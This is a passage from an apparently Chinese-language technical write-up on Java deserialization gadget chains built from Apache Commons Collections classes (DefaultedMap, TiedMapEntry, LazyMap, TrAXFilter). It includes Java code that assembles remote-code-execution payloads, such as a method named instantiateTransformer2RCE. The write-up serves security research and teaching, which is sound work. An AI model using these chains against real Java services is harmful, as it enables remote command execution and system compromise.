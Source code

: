 ```java
    public static HashMap getValue2TransformerInvoke_DefaultedMap(Transformer transformer) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> defaultedMap = DefaultedMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(defaultedMap, "whatever");

        HashMap<Object, Object> source = new HashMap<>();
        source.put(tiedMapEntry, "dummykitty");
        defaultedMap.remove("whatever");

        ReflectUtils.setFieldValue(defaultedMap,"value", transformer);

        return source;
    }
```

#### TransformedMap
TransformedMap 的 setValue 方法也可以调用 transform 方法，在 CC1 中，通常使用 AnnotationInvocationHandler 充当反序列化的入口类，因为 AnnotationInvocationHandler 的 readObject 方法可以调用 setValue 方法。但 AnnotationInvocationHandler 在 jdk 1.8 之后无法使用了。这里不做详细说明。

### 代替 ConstantTransformer
在 GTemplate 的利用中，基本上 payload 中都会使用到 ConstantTransformer 和 ChainedTransformer，如下：
```java
    public static Transformer instantiateTransformer2RCE(String cmd) throws Exception {
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] {GTemplates.getEvilTemplates(cmd)} )};
        Transformer transformerChain = new ChainedTransformer(transformers);
        return transformerChain;
    }
```
但实际上 LazyMap、DefaultedMap 在调用 get 方法时会传入 key 参数：
```java
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```
在使用 ChainedTransformer 和 ConstantTransformer 时，由于 ConstantTransformer 固定了返回值，LazyMap 的 key 只要传入任意值就可以了。

#### 直接传入 key

实际上 LazyMap.get 可以直接调用 InstantiateTransformer.transform, key 只要传入 TrAXFilter.class 就可以达到相同的目的。
